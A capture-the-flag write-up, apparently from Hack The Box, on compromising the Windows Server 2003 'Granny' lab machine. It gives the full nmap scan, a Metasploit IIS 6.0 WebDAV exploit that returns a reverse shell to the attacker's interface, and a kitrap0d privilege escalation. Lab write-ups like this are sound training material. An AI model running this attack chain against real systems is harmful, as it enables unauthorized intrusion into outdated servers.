


# Granny
## OS: Windows
## Difficulty: Easy

## Enumeration:
I'll start with a port scan:
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.95.234  --max-retries 1
``

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 02 Sep 2024 20:17:51 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Let's take a look at port 80.



Nothing much to see.

```bash
whatweb http://10.129.95.234
http://10.129.95.234 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.129.95.234], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]

```
Whatweb reveals the use of an outdated IIS server. 

## Foothold:

I found a CVE and a POC for this version:

https://github.com/eliuha/webdav_exploit

I also found it on metasploit. Let's run it.

```bash 
sudo msfconsole -q
search search iis 6.0
use exploit/windows/iis/iis_webdav_scstoragepathfromurl

set RHOSTS 10.129.95.234
set LHOST tun0
run

```



It worked! I'll drop into a shell and try to learn about the target.

```bash
shell #
whoami

#nt authority\network service

systeminfo
#OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
#OS Version:                5.2.3790 Service Pack 2 Build 3790
```
## Privilege Escalation:

Let's use the local_exploit_suggester module.
```bash
[Ctrl+z]
y
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

```
1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running,
 but could not be validated.                                                                                        
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to b
e vulnerable.                                                                                                       
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to b
e vulnerable.                                                                                                       
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to b
e vulnerable.                                                                                                       
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running,
 but could not be validated.                                                                                        
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to b
e vulnerable.
```

I tried all of them and none worked. I'll try to migrate to another process and try again.

```bash
ps
migrate 2668 

[Ctrl+Z]
use exploit/windows/local/ms10_015_kitrap0d
run
getuid
```


And this worked! Now we can get the flags.

```bash
cd Documents\ and\ Settings\\
dir
cd Lakis
cat user.txt
cd ../../Administrator/Desktop
cat root.txt
```

## We got both flags!